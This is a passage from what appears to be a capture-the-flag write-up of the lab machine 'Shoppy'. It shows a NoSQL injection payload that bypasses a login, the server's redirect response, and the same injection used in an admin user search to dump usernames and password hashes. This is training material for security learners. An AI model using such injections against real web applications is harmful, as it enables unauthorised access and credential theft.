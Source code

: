 The initial example of `username=admin' || 1==1//&password=foobar` gave a 504, but the above worked and gave the following response!:

```
HTTP/1.1 302 Found
Server: nginx/1.23.1
Date: Sun, 25 Dec 2022 07:38:44 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: close
Location: /admin
Vary: Accept
Set-Cookie: connect.sid=s%3Aw1vzR-3zSPV98eF-hiBqdfT8SFB4-Omf.s03gQG0EK%2F4m8xUI8cB0EP5xTTqOk7SEFv9W16yAxJY; Path=/; HttpOnly

Found. Redirecting to /admin
```

After the redirect I ended up at /admin:

![](./2022-12-25-19-06-29-image.png)

The page looks fairly static, apart from the *Search for users* button which does a GET http://shoppy.htb/admin/search-users .



If i inject into this with `' || 1==1//` ,  I get two users in the download link that shows - http://shoppy.htb/exports/export-search.json:

```json
[
    {"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
    {"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}
]
```
